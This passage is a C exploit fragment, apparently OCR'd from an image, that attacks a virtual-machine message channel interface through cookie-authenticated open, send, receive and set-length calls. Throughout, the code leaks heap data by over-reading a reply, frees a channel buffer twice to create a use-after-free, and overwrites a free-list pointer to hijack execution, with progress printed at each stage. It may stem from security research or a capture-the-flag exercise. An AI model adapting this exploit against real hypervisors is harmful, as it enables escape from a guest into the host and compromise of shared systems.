 ```c
    channel_send_data(chan[0].cookie1,chan[0].cookie2,chan[0].num,strlen(s1),s1,&res);
    channel_recv_reply_len(chan[0].cookie1,chan[0].cookie2,chan[0].num,&len,&res);
    if(!res){
        printf("fail to recv data len\n");
        return;
    }
    printf("recv len:%d\n",len);
    data = malloc(len+0x10);
    memset(data,0,len+0x10);
    for(i=0;i<len+0x10;i+=4){
        channel_recv_data(chan[0].cookie1,chan[0].cookie2,chan[0].num,i,data,&res);
    }
    printf("recv data:%s\n",data);

    channel_open(&chan[1].cookie1,&chan[1].cookie2,&chan[1].num,&res);
    if(!res){
        printf("fail to open channel!\n");
        return;
    }
    channel_open(&chan[2].cookie1,&chan[2].cookie2,&chan[2].num,&res);
    if(!res){
        printf("fail to open channel!\n");
        return;
    }
    channel_open(&chan[3].cookie1,&chan[3].cookie2,&chan[3].num,&res);
    if(!res){
        printf("fail to open channel!\n");
        return;
    }

    printf("this time free firstly\n");
    getchar();
    channel_set_len(chan[0].cookie1,chan[0].cookie2,chan[0].num,0xffff,&res);
    if(!res){
        printf("fail to recv finish2\n");
        return;
    }
    printf("already free check the heap\n");
    getchar();
    printf("alloc for channel 1\n");
    getchar();

    channel_set_len(chan[1].cookie1,chan[1].cookie2,chan[1].num,strlen(s3),&res);
    if(!res){
        printf("fail to set len\n");
        return;
    }
    printf("leak2 success\n");
    getchar();

    printf("free agin for UAF\n");
    getchar();
    channel_set_len(chan[0].cookie1,chan[0].cookie2,chan[0].num,0xffff,&res);
    if(!res){
        printf("fail to recv finish2\n");
        return;
    }
    printf("UAF done!\n");
    getchar();
    printf("ready to change fd\n");
    getchar();
    channel_send_data(chan[1].cookie1,chan[1].cookie2,chan[1].num,8,&pay1,&res);
    printf("hjacking!!\n");
```